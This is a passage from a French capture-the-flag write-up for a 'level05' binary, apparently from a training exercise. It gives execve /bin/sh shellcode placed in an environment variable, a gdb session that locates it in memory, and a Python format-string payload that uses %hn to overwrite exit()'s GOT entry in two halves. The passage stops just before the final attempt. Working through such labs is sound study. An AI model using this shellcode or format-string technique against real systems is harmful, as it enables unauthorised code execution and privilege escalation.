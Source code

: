 En réfléchissant à la construction du payload, je me rend compte que certains bytes de mon shellcode vont être affecté par l'opération `XOR`. Notamment le 3eime byte de mon shellcode : `\x50` (qui converti en décimal, puis en ASCII, représente P).

Je ne peux donc pas insérer mon shellcode directement dans le buffer. Je cherche une solution alternative. [Ce site](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x270-stackoverflow.html) me met sur la piste d'une injection à partir d'une variable environnement. En effet, l'environnement est accessible depuis le binaire, donc il a une adresse en mémoire.

Je commence par stocker mon shellcode dans une variable env :

```h
$ export SHELLCODE=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Puis cherche l'adresse de cette variable dans la mémoire du binaire avec `gdb` :

```h
$ gdb ./level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048449 in main ()
(gdb) x/1000s environ
...
0xffffd8d3:      "SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀"
...
```

En essayant le payload avec cette adresse, et sans succès, je me rend compte que l'adresse transformée en décimale est bien trop grande pour être contenu dans un int : `0xffffd8d3 => 4294957267` :

```bash
$ (python -c 'print("\x08\x04\x97\xe0"[::-1] + "%4294957263x %10$n")'; cat) | ./level05
whoami
$
```

Je dois donc [séparer](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) en utilisant le formatteur `%hn` de printf, qui permet d'écrire dans 2 bytes à la fois, d'abord 2 dans l'adresse d'origine de `exit()` trouvée plus haut, puis 2 bytes plus loin.

Les adresses à écrire seront donc `0xffff` et `0xd8d3` soit 65535 et 55507.
Il faut aussi prendre en compte que l'adresse sera en Small Endian, j'écrirais donc d'abord 55507 bytes, puis (65535 - 55507 = 10028) bytes puisque 55507 bytes auront déjà été écrit.

Mon nouveau payload sera donc :

```python
python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55507x%10$hn" + "%10028x%11$hn")'
```

Je l'essaye :
